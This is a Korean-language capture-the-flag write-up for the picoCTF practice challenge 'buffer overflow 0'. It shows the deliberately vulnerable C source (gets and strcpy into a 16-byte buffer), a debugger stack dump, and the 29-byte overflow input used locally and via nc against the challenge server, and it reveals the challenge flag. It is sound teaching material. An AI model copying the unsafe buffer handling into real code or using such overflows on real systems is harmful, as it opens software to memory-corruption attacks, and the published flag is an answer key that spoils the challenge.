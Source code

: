 # [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Let's start off simple, can you overflow the correct buffer?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buf_0/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

> [!NOTE]
> ```bash
> $ cat flag.txt
> pico{this_is_flag}
> ```

<br />
<br />

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
...
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
소스코드를 보면 `SIGSEGV`가 발생하면 FLAG를 출력합니다. 

<br />

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
...
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
gets는 `"\n"`를 만날때까지 입력을 받습니다. 이는 스택 버퍼오버플로우가 발생합니다. `vuln`은 `gets`로 입력받은 값을 복사하여 `buf2`에 저장합니다. 함수는 할 일을 다하면 `Return address(RET)`를 통해 원래 있던 곳으로 복귀합니다. 이때 `RET`이 가리키는 값이 유효하지 않을 경우, `SIGSEGV`가 발생하고 프로그램을 종료합니다.

<br />

```asm
pwndbg> b *vuln+38
Breakpoint 1 at 0x56556379
pwndbg> r
Starting program: /home/kali/pico/buf_0/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Input: AAAABBBBCCCC
...
pwndbg> x/32x 0xffffd130
0xffffd130:     0x41414141      0x42424242      0x43434343      0x56558f00
0xffffd140:     0x565564a0      0x56558fac      0xffffd1d8      0x56556477
0xffffd150:     0xffffd164      0x000003e8      0x000003e8      0x5655641f
0xffffd160:     0x1f8bfbff      0x41414141      0x42424242      0x43434343
0xffffd170:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd180:     0x00000000      0xffffd3eb      0x00000002      0x00000000
0xffffd190:     0x00000000      0x00000000      0x00000000      0xffffdfdd
0xffffd1a0:     0xf7fc5540      0xf7fc5000      0x00000000      0x00000000
pwndbg> x/a 0x56556477
0x56556477 <main+245>:  0x8310c483
```
`"AAAABBBBCCCC"`를 입력하고, `strcpy` 호출 직후의 스택 상태를 보겠습니다. `buf2`에는 입력 값이 복사가 되어 있는 것을 알 수 있으며, `0x56556477`는 `RET` 입니다. 따라서 버퍼를 29바이트이상 채우면 `RET`이 유효하지 않은 주소를 가리키므로, `SIGSEGV`가 발생할 것입니다.

<br />

```bash
$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
pico{this_is_flag}
```

<br />

**Remote:**
```bash
$ nc saturn.picoctf.net 55280
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```
